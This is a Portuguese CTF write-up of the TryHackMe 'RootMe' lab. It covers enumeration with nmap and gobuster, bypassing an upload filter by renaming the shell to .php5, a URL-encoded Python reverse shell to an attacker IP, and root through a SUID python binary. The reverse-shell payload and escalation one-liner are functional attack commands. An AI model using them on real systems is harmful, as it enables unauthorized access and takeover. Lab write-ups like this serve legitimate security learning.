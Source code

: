```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - RootMe - Fácil
date: 2024-01-15 19:01:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, SUID, facil]     # TAG names should always be lowercase
show_image_post: true
---
```

![Alt text](/assets/img/rootmelogo.png){: w="100" h="100" .left}

---
# THM - Root Me - Fácil
---
## **Enumeração**

### nmap 

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s  10.10.246.13 --min-rate 10000 -oA nmapvers -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-13 21:29 -03
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 21:29 (0:00:07 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 21:29 (0:00:00 remaining)
Nmap scan report for 10.10.246.13
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.57 seconds
```
{: .nolineno }
### gobuster

```shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.10.246.13/uploads              (Status: 200) [Size: 743]
http://10.10.246.13/js                   (Status: 200) [Size: 958]
http://10.10.246.13/css                  (Status: 200) [Size: 1125]
http://10.10.246.13/index.php            (Status: 200) [Size: 616]
http://10.10.246.13/panel                (Status: 200) [Size: 732]
http://10.10.246.13/server-status        (Status: 403) [Size: 277]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
http://10.10.246.13/index.php            (Status: 200) [Size: 616]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
Progress: 249136 / 249140 (100.00%)
===============================================================
Finished
===============================================================
```
{: .nolineno }


## **Acesso**

Encontrado pagina de upload de arquivos

http://10.10.246.13/panel 

![Alt text](/assets/img/rootme1.png)

Bloqueio de envio de arquivos php, bypass renomeando arquivo para .php5

### Upload de webshell

![Alt text](/assets/img/rootme2.png)

Encontrado arquivo website.zip na home do site

```shell
└─$ ls -R Website          
Website:
css  index.php  js  panel  uploads

Website/css:
home.css  panel.css

Website/js:
maquina_de_escrever.js

Website/panel:
index.php

Website/uploads:
'CAPA CANAL NOVO.png'   shell.php5
```
{: .nolineno }

### Reverse Shell 

```text
http://10.10.246.13/uploads/sh.php5?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.6.125.125%22,4443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
{: .nolineno }

### Primeira Flag

```shell
bash-4.4$ ls
html  user.txt
bash-4.4$ cat user.txt 
THM{y0u_g0t_a_sh3ll}
```
{: .nolineno }


## **Escalação de Privilegio**

sudo -l precisa de senha
Busca por arquivos SUID

```shell
find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000
```
{: .nolineno }

Encontrado /usr/bin/python

No [GTFObins](https://gtfobins.github.io/gtfobins/python/#suid) como obter root através de SUID no python.  
`./usr/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

### **Última flag encontrada** 
![Alt text](/assets/img/rootme4.png){: .w-75 .normal}
    
